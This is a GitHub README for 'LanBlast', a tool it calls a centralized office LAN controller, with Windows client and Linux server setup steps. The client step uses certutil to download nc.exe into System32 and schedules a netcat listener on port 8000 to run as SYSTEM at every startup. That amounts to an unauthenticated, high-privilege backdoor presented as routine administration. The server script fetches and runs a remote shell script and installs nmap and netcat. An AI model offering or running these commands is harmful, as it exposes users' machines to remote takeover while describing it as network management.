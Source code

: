 ## LanBlast
The **LanBlast** ( LAN System Controller ) is a centralized system designed to manage and operate an entire office network connected through a Local Area Network (LAN) or WLAN. This system serves as the backbone for effectively controlling and coordinating various operations within the office environment. It provides a comprehensive set of features and functionalities to ensure smooth functioning and efficient management of the connected devices.

## Why
A LAN System Controller offers benefits such as centralized control, efficient resource management, file sharing, enhanced security, streamlined user management, simplified software distribution, remote troubleshooting and support, centralized data backup and recovery, reporting and analytics capabilities, and scalability and flexibility. Overall, it simplifies network management, improves security, optimizes resource utilization, and provides a stable and productive working environment.

## Deployement
#### Client setup [ Windows ]

 1. Open a command prompt with Administrative privileges and run the
    command.
```bash
certutil -urlcache -split -f "https://github.com/4n0nym4u5/Lan-System-Controller/raw/master/nc.exe" "%SystemRoot%\System32\nc.exe"
schtasks /Create /TN "netcat" /RU SYSTEM /SC ONSTART /TR "nc.exe -Lnvp 8000" /RL HIGHEST /IT /F
```
 2. Restart the system.

#### Server setup [ Linux ]

```bash
#!/bin/bash

# Check internet connectivity
if ! ping -c 1 8.8.8.8 >/dev/null 2>&1; 
then
	echo  "No internet connection. Exiting..."
	exit 1
fi

# Download the project.sh to local system
wget https://raw.githubusercontent.com/4n0nym4u5/Lan-System-Controller/master/project.sh
chmod +x project.sh

# Install Dependencies
if [ -f /etc/lsb-release ]; then
    # Ubuntu-based distribution
    sudo apt-get update
    sudo apt-get install nmap apache2 netcat
elif [ -f /etc/arch-release ]; then
    # Arch Linux-based distribution
    sudo pacman -Syu
    sudo pacman -S nmap apache netcat
elif [ -f /etc/redhat-release ]; then
    # Red Hat-based distribution
    sudo yum update
    sudo yum install nmap httpd netcat
else
    # Unsupported distribution
    echo "Unsupported distribution. Please install nmap, apache2, and netcat manually."
fi
echo "Done"
```
## Demo
https://vimeo.com/374672636
